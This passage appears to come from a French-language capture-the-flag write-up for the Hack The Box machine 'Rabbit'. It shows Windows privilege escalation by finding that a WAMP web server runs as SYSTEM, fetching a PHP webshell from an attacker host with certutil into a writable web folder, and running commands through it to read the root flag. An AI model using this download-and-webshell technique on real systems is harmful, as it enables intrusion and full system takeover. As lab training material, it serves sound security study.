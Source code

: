                                  DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.71
                                 [02]: fe80::284f:3ed5:97c1:7a1a
                                 [03]: dead:beef::284f:3ed5:97c1:7a1a
PS C:\Program Files (x86)\OpenOffice 4\program> 

PS C:\Program Files (x86)\OpenOffice 4\program> 
```

## On liste les process, et on regarde wamp

powershell -version 2 -c " & {Get-WmiObject -Query "'Select * from Win32_Process'" | where {$_.Name -notlike "'svchost*'"} | Select Name, Handle, @{Label="'Owner'";Expression={$_.GetOwner().User}} | ft -AutoSize }"


c:\>net start | findstr wamp
   wampapache64
   wampmysqld64

On regarde ou tourne le serveur web

c:\>sc qc wampapache64
BINARY_PATH_NAME : "c:\wamp64\...."
SERVICE_START_NAME : LocalSystem  <=== system

On vérifie les droits en ecriture 

c:\>cd c:\wamps64
c:\>icacls www

... (WD)   <== write data

WAmp64 tourne en authority\system , on place un webshell php dans son arborescence...

cd c:\wamp64\www\joomla\

cmd.exe /C certutil.exe -urlcache -split -f ""http://10.10.14.3/shell.php"" c:\wamp64\www\joomla\shell.php 

http://rabbit.htb:8080/joomla/shell.php?cmd=whoami

Shell: nt authority\system 

http://rabbit.htb:8080/joomla/shell.php?cmd=type \users\administrator\desktop\root.txt
XXXXXXXXXXXXXXXXXXXXXXx